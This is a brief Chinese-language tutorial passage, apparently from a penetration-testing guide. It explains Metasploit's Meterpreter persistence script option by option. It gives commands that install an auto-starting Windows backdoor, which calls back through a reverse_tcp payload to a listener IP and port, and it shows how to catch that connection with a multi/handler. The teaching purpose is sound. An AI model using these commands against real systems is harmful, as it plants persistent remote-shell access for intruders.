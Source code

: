 
(1) 使用run persistence -h查看参数。

-A：安装后门后，自动启动exploit/multi/handler模块连接后门

-L：自启动脚本的路径，默认为%TEMP%

-P：需要使用的payload，默认为
```
windows/meterpreter/reverse_tcp
```
-S：作为一个服务在系统启动时运行（需要SYSTEM权限）

-T：要使用的备用可执行模板

-U：用户登陆时运行

-X：系统启动时运行

-i：后门每隔多少秒尝试连接服务端

-p：服务端监听的端口

-r：服务端ip

(2) 生成后门
```
命令：run persistence -X -i 10 -r 192.168.1.9 -p 4444

run persistence -X -i 10 -r 192.168.100.82 -p 4545 
```




(3) 连接后门

使用exploit/multi/handler模块，payload设置为
```
windows/meterpreter/reverse_tcp
```
![](img/5.png)
，同时设置好服务端监听ip和端口。



## 1.什么是UAC？
